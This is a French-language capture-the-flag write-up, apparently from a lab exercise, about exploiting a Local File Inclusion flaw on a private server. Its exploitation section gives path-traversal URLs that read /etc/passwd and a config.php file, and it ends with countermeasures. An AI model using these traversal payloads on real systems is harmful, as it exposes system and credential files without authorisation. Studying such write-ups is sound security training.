

# Exploitation d'une faille LFI (Local File Inclusion)

## Description

Ce document décrit comment une vulnérabilité **LFI (Local File Inclusion)** a été exploitée sur le serveur **10.211.55.2**. Cette vulnérabilité permet d'inclure des fichiers locaux du serveur via un paramètre non sécurisé.

## Détails de la vulnérabilité

Sur l'URL suivante :
```
http://10.211.55.2/?page=../../../../../../../etc/passwd
```
Le paramètre `page` est vulnérable à une inclusion de fichier locale. En manipulant ce paramètre, il a été possible d'afficher le fichier **/etc/passwd**, qui contient la liste des utilisateurs du système.

### 📌 Pourquoi cette faille existe-t-elle ?
- Le paramètre `page` est directement utilisé pour inclure un fichier sans validation ni filtrage.
- Le serveur autorise les chemins relatifs (`../../`), permettant de remonter jusqu'à la racine du système de fichiers.

## Exploitation

1. Accéder à l'URL vulnérable :
   ```
   http://10.211.55.2/?page=../../../../../../../etc/passwd
   ```
2. Le fichier `/etc/passwd` s'affiche, prouvant que l'inclusion fonctionne.
3. En cherchant d'autres fichiers sensibles, il est possible d'accéder à des configurations ou des identifiants stockés dans des fichiers comme :
   ```
   http://10.211.55.2/?page=../../../../../../../var/www/html/config.php
   ```

### 🎯 Flag trouvé
En exploitant cette faille, le flag suivant a été révélé :
```
b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```



## Contre-mesures 🔒

Pour empêcher cette vulnérabilité :
- **Ne jamais inclure directement un fichier basé sur un paramètre utilisateur.**
- **Filtrer et valider l'entrée utilisateur** (supprimer `../`, `./`, `%00`, etc.).
- **Utiliser une liste blanche de fichiers autorisés** au lieu de permettre toute inclusion dynamique.
- **Restreindre les permissions sur le serveur** pour éviter d'exposer des fichiers sensibles.
- **Désactiver l'utilisation des wrappers PHP dangereux** comme `php://filter` si possible.

## Conclusion

LFI est une vulnérabilité critique qui peut exposer des fichiers système sensibles, voire mener à une exécution de code arbitraire si combinée avec d'autres failles (ex: **Remote Code Execution - RCE**). La mise en place de filtres stricts est indispensable pour éviter ce type d'attaque.

